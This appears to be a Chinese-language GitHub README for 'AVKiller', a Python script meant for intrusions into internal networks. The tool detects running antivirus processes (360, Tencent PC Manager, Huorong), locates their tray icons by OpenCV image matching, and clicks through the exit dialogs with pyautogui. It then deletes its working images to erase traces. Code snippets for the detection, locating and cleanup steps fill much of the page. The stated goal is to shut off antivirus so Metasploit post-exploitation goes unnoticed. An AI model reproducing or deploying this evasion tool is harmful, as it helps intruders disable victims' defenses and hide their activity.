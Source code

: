 # AVKiller
### 该项目目前将会继续更新，下个版本将会有新功能上线，敬请期待！！
## 利用图形化识别技术快速关闭目标机器上的杀毒软件

写该脚本的原因是4月份在进行内网渗透的时候，对MSF木马做了免杀处理，做完免杀的木马可以完美绕过杀毒软件的检测，但是msf木马在执行下一步操作的时候，往往会向目标计算机继续写入exe文件或执行powershell代码，这样的操作几乎都会引发杀毒软件的告警，让渗透的过程被对方察觉，而且MSF生成的后渗透可执行文件已经被所有杀毒软件厂商提取特征码，免杀效率几乎为0。所以才有了为何不直接关闭目标的杀毒软件后再进行后渗透操作的想法。


## 功能实现

### 1.识别杀软

为了实现自动识别杀毒软件的功能，首先要知道系统运行了哪些杀毒软件，CMD命令tasklist可以列出系统正在运行的进程，将其与已知的杀毒软件进行进行匹配即可，如果进程中有与av_process里的进程名，说明该电脑正在运行XX杀毒软件。这里需要做个判断，如果不存在杀毒软件的话，则退出该程序。

	#检测杀毒软件函数，返回杀毒软件名称
	av_process = {'hr': 'HipsTray.exe', 'txgj': 'QQPCTray.exe', '360': '360sd.exe'}
	def runningAVs():
		tasklist = popen('tasklist').read().split()  #运行系统命令tasklist
		for av_exe in av_process.values():
			if av_exe in tasklist:
				usingAV = [k for k, v in av_process.items() if v == av_exe][0]
				return usingAV # 返回目标主机使用的杀毒软件名称


判断目标主机使用的杀毒软件后，由于使用的是图像识别，所以需要将对应的图标和"确认""退出"的字样写入

	# 杀毒软件logo，以及其他字符图片的写入。若不存在杀毒软件，程序退出
	try:
		AV = runningAVs()
		print(AV)
		# 将对应的logo写入
		logo_b64 = b64_AV_logo[AV]
		logo_img = base64.b64decode(logo_b64)
		with open(logoImage, 'wb') as f:
			f.write(logo_img)
			
		# 输出通用的‘退出’字符串图片
		with open(logoutImage, 'wb') as f:
			f.write(base64.b64decode(b64_logout))
			
		# 通过杀毒软件判断最后一步退出步骤应该使用的字样
		#（360与腾讯管家的最后一步“确认”字样底色颜色不一样）
		if AV == r'hr':
			return b64_logout
		elif AV == r'360':
			return b64_blue_comfirm
		else:
			return b64_white_comfirm
	#没检测到杀毒软件，程序退出
	except :
		print('主人，这家伙没开杀毒软件！！！！干他๑乛◡乛๑ ')
		exit()


### 2.坐标获取

知道目标主机运行的程序后就需要准备关闭它了，这时候使用opencv的图像识别技术，找到目标（杀毒软件）logo在屏幕的位置，以坐标形式进行返回，用于对鼠标的定位。

	# 使用opencv获取图标的坐标（logo，退出，确认等字样）
	def get_position(imgSource, imgTarget):
		source = cv2.imread(imgSource, 0)  # 0-灰度处理，防止颜色不同对定位产生影响
		target = cv2.imread(imgTarget, 0)
		wight, height = target.shape[::-1]  # 获取图片长和宽，方便确定文字的中新坐标
		res = cv2.matchTemplate(source, target, cv2.TM_CCOEFF_NORMED)
		min_val, max_val, min_loc, max_loc = cv2.minMaxLoc(res)
		pos_x = int(max_loc[0] + wight / 2)
		pos_y = int(max_loc[1] + height / 2)
		# print(pos_x, pos_y)
		return pos_x, pos_y


### 3.鼠标操作

这是pyautogui库的功能，此程序用到的只是rightClick，Click功能，主要是利用opencv获取到的坐标，让鼠标进行移动到对应的位置，然后进行右击和点击操作。

### 4.清理痕迹

活干完了，总不能抢前走人吧，至少得擦掉一些痕迹吧！由于需要多次通过图片对比来找到坐标，所以会在目标电脑里保存6张图片，所以当杀毒软件退出后，我们需要将其删除。CMD的del命令可以删除文件（不是移动到回收站，而是直接删除）

	def clean():
	popen(r'del /q {} {} {} {} {} {}'.format(logoutImage, logoImage, comfireImage,screen_before,screen_logout,screen_comfire))


### 5.Tips

#### a)	关于sleep：为什么需要sleep？
Pyautogui进行截屏操作的时候需要时间（100ms左右，电脑性能会导致时间长短不同），sleep时长跟电脑性能有关，如果目标主机性能足够好的话，可以适当减小sleep时长。

#### b)	关于图片存放位置：为什么不直接在当前目录下？
在当前目录下由于图片中有类似‘退出’、‘确认’字样，会被opencv识别，导致定位不准，所以必须保存在其他目录下

#### c)	关于打开右下角隐藏起的图标
Win+B，再按一下空格键或者回车键

#### d)	关于图片保存
先将图片转为base64，需要用的时候再将其解码回来即可。而且重要的是，当进行渗透的时候，只需要上传一个文件！减少上传的文件数量！

#### e)关于图标与桌面的打开软件的图标是否冲突
这个不会，因为opencv识别时的SourceImage和TargetImage大小差别太大不能识别

### 6. 图片展示
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/360.gif "关闭360")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/txgj.gif "关闭腾讯管家")
![markdown](https://github.com/PDWR/AVKiller/blob/master/images/hr.gif "关闭火绒")
